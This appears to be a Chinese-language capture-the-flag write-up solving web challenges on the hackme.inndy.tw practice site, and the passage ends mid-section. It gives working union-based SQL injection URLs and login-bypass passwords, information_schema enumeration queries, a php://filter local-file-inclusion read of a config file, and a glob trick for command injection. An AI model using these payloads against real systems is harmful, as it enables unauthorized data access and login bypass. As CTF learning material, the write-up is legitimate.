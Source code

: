 爆flag內容：

`https://hackme.inndy.tw/gb/?mod=read&id=1%20and%201=2%20union%20select%201,2,3,group_concat(flag)%20from%20flag`

### LFI

直接php://filter讀檔

`https://hackme.inndy.tw/lfi/?page=php://filter/convert.base64-encode/resource=pages/config`

### homepage

直接執行`cute.js`裡的code

會生出一張QR code

解碼後就是FLAG

### ping

head沒擋

``` 
`head fla?.p?p` 
```

### scoreboard

FLAG在response header

### login as admin 0

usernmae: `admin`

password: `admin\'union select 1, 2,3,1 -- `

### login as admin 0.1

一樣在password注入

union based mysql injection

爆庫名：

`admin\'union select 1, group_concat(schema_name),3,1 from information_schema.schemata -- `

爆表名：

`admin\'union select 1, group_concat(table_name),3,1 from information_schema.tables where table_schema=0x6c6f67696e5f61735f61646d696e30 -- `

爆Column:

`admin\'union select 1, group_concat(column_name),3,1 from information_schema.columns where table_name=0x68316464656e5f66313467 -- `

爆flag:

